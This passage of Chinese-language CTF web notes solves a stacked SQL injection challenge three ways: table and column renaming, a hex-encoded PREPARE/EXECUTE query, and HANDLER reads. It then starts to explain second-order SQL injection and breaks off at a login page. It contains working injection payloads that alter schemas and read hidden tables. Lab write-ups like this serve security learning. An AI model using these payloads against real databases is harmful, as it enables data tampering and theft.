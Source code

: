 1.通过 rename 先把 words 表改名为其他的表名。

2.把 1919810931114514 表的名字改为 words 。

3 .给新 words 表添加新的列名 id 。

4.将 flag 改名为 data 。

```mysql
1'; rename table words to word1; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alert table words change flag data varchar(100);#
```

然后输入1就可查到flag

#### 解法②

将select * from ` `1919810931114514` `进行16进制编码

构造payload

```mysql
1;SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#
```

* prepare…from…是预处理语句，会进行编码转换
* execute用来执行由SQLPrepare创建的SQL语句
* SELECT可以在一条语句里对多个变量同时赋值,而SET只能一次对一个变量赋值

#### 解法③

类似于[GYCTF2020]Blacklist

使用了handler

直接上payload

```mysql
1'; handler `1919810931114514` open as `a`; handler `a` read next;#
1';handler `1919810931114514` open; handler `1919810931114514` read first;handler `1919810931114514` close;#
1'; handler `1919810931114514` open; handler `1919810931114514` read next;#
```

三种方法实际上一模一样

打开文件，查看文件~



### Twice SQL Injection (二次注入)

二次注入是指已存储（数据库、文件）的用户输入被读取后再次进入到 SQL 查询语句中导致的注入
二次注入是sql注入的一种，但是比普通sql注入利用更加困难，利用门槛更高。普通注入数据直接进入到 SQL 查询中，而二次注入则是输入数据经处理后存储，取出后，再次进入到 SQL 查询

下面用这个题来深入理解一下

![image-20220523223156449](D:\Typora\note\CTF\web\challenge.assets\image-20220523223156449.png)

进入页面是一个登录框，随便注入试试，没用
